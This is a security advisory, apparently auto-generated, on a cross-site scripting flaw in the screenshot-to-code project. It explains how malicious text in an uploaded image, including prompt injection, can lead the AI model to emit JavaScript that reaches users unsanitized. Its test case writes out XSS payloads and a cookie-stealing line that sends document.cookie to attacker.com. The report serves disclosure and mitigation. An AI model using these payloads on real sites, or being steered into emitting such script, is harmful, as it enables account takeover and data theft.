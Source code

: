 ### Merged Vulnerability List

This document outlines the identified Cross-Site Scripting (XSS) vulnerability present in the screenshot-to-code project. The vulnerability stems from the application's reliance on AI models to generate code without proper sanitization, leading to the potential injection and execution of malicious JavaScript within the generated code.

#### Vulnerability Name: Cross-Site Scripting (XSS) in AI-Generated Code

- **Description:**
    1. An attacker crafts a malicious input, such as an image containing embedded JavaScript code or text that can be misinterpreted as JavaScript, and uploads it to the `screenshot-to-code` application through the frontend.
    2. The application's backend receives this input and utilizes an AI model (like Claude or GPT) to generate HTML, CSS, and JavaScript code based on the provided image.
    3. Due to the nature of AI-generated content and the lack of security considerations in the generation process, the AI model may inadvertently or intentionally include malicious JavaScript code within the generated output. This could be through direct injection from the input or due to the AI model's interpretation of malicious text or patterns in the input image.
    4. The `screenshot-to-code` application backend, specifically in `backend/routes/generate_code.py`, directly streams this AI-generated code back to the frontend via WebSocket without any form of security sanitization or content inspection.
    5. The frontend receives this unsanitized HTML code and dynamically renders it within the user's browser, executing any embedded JavaScript code.
    6. Consequently, when a user deploys this AI-generated code to a web server without prior security review, and other users access the deployed web application, the malicious JavaScript code embedded within the AI-generated content executes in their browsers, leading to Cross-Site Scripting (XSS). This allows the attacker to execute arbitrary JavaScript code in the context of the victim's browser session.

- **Impact:**
    - **Account Takeover:** By stealing session cookies or other authentication tokens through JavaScript, attackers can hijack user accounts and gain unauthorized access.
    - **Website Defacement:** Attackers can modify the content of the web page displayed to users, potentially damaging the website's reputation or spreading misinformation.
    - **Redirection to Malicious Sites:** Users can be silently redirected to attacker-controlled websites, which can be used for phishing attacks, malware distribution, or further exploitation.
    - **Data Theft:** Attackers can steal sensitive information accessible through the user's browser session, including personal data, API keys, or other confidential information stored in local storage or cookies.
    - **Malware Distribution:** The XSS vulnerability can be leveraged to distribute malware to users visiting the compromised website, infecting their systems.

- **Vulnerability Rank:** High

- **Currently Implemented Mitigations:**
    - None. The current implementation of the `screenshot-to-code` project prioritizes functionality and the accuracy of code generation over the security of the generated code. There are no automated security mechanisms in place to sanitize or inspect the AI-generated code before it is presented to the user or deployed. While documentation might implicitly suggest user review, there are no active mitigations within the application itself.

- **Missing Mitigations:**
    - **Output Sanitization (Backend-side):**  It is crucial to implement server-side sanitization of the AI-generated code before it is sent to the frontend. This should involve parsing the generated HTML, CSS, and JavaScript on the backend and using a robust HTML sanitization library (like Bleach in Python) to remove or escape potentially dangerous elements and attributes. This will prevent the execution of malicious JavaScript injected by the AI model.
    - **Content Security Policy (CSP) Recommendation:** The application should recommend, or ideally automatically include, a Content Security Policy (CSP) in the header of the generated HTML. CSP is a browser security mechanism that can significantly mitigate XSS attacks by controlling the resources (scripts, styles, etc.) that the browser is allowed to load. Clear instructions on how to configure CSP for deployed applications should be provided in the documentation, or ideally, the application should offer a feature to generate a secure CSP configuration.
    - **Security Warning:** A clear and prominent warning message should be displayed in the application's frontend whenever code is generated. This warning must explicitly communicate the potential security risks associated with deploying AI-generated code without a thorough security review. Users should be strongly advised to manually inspect and conduct security testing of the generated code before deploying it to a live environment.

- **Preconditions:**
    1. A user must utilize the `screenshot-to-code` application to generate web application code.
    2. The AI model used by the application must generate code that inadvertently or intentionally includes malicious JavaScript. This can be triggered through malicious input images, prompt injection, or inherent limitations of the AI model in producing secure code.
    3. The user must deploy the AI-generated code to a publicly accessible web server without performing a thorough security review and sanitization of the code.
    4. End-users must access the deployed web application through their browsers for the XSS vulnerability to be exploited.

- **Source Code Analysis:**
    - **`backend/routes/generate_code.py`:** This file serves as the entry point for code generation requests via the `/generate-code` WebSocket endpoint. The `stream_code` function handles the entire code generation process. It receives user input, interacts with AI models via functions in `llm.py`, and streams the generated code back to the frontend. Critically, no sanitization is performed on the AI-generated code within this file or in any part of the backend before sending it to the frontend. The code directly forwards the raw, potentially malicious, AI-generated HTML.
    - **`backend/codegen/utils.py`:** The `extract_html_content` function is used to parse and extract HTML from the AI model's response. However, this function is purely for content extraction and does not perform any security sanitization. It focuses on extracting the HTML structure and content, but not on removing or escaping potentially malicious JavaScript or HTML attributes.
    - **`frontend`:** The frontend, upon receiving the AI-generated code via WebSocket, directly displays it to the user.  There is no client-side sanitization implemented in the frontend either. The frontend trusts the backend and renders the received HTML as is.
    - **Data Flow Visualization:**

    ```mermaid
    graph LR
        User Input (Malicious Image) --> Frontend
        Frontend --> WebSocketEndpoint(/generate-code) in `backend/routes/generate_code.py`
        WebSocketEndpoint --> `create_prompt` in `prompts/__init__.py`
        `create_prompt` --> LLM API (Claude/GPT) via `llm.py`
        LLM API --> AI Generated Code (potentially with XSS)
        AI Generated Code --> WebSocketEndpoint
        WebSocketEndpoint --> `extract_html_content` in `codegen/utils.py` (No Sanitization)
        `extract_html_content` --> WebSocket to Frontend
        Frontend --> User (Displays Unsanitized Code)
        User Deploys Unsanitized Code --> Public Web Server
        End-users Access Web Server --> XSS Vulnerability Triggered
    ```

- **Security Test Case:**
    1. **Environment Setup:** Deploy a local instance of the `screenshot-to-code` project according to the instructions in the `README.md`. Ensure both frontend and backend are running.
    2. **Malicious Input Preparation:** Create a PNG image that visually resembles a webpage but includes a malicious JavaScript payload as text. For example, embed the text `<img src=x onerror=alert('XSS')>` or `<script>alert('XSS')</script>` within the image's content using an image editor. Alternatively, find an image online or create a design mockup that incorporates such text subtly.
    3. **Code Generation:** Open the `screenshot-to-code` application in a web browser (e.g., `http://localhost:5173`). Upload the prepared malicious image through the application's interface. Select any supported stack (e.g., HTML + Tailwind) and initiate the code generation process.
    4. **Generated Code Inspection:** Once code generation is complete, carefully examine the generated HTML code displayed in the frontend's output area. Look for the injected malicious JavaScript code, especially within `<script>` tags or event handler attributes (e.g., `onerror`, `onload`). Verify if the payload from your malicious image, or a variation of it, is present in the generated code.
    5. **Deployment of Vulnerable Code:** Copy the generated HTML code from the frontend. Create a new HTML file (e.g., `xss_test.html`) and paste the copied code into it. Host this `xss_test.html` file on a simple HTTP server. You can use Python's `http.server` for local testing or any other web server.
    6. **XSS Trigger and Verification:** Open `xss_test.html` in a web browser. If the generated code is vulnerable to XSS, the embedded JavaScript code should execute. For payloads like `<img src=x onerror=alert('XSS')>`, an alert box displaying 'XSS' should appear. If you used `<script>alert('XSS')</script>`, the alert should also pop up.
    7. **Exploit Confirmation and Further Assessment:** Successful execution of the JavaScript code confirms the presence of the XSS vulnerability. To further assess the impact, you can replace the simple `alert('XSS')` payload with more sophisticated XSS payloads designed to steal cookies (e.g., `document.location='http://attacker.com/cookie_stealer?cookie='+document.cookie`) or redirect to an attacker-controlled website, and repeat steps 5 and 6 to verify those more critical impacts.
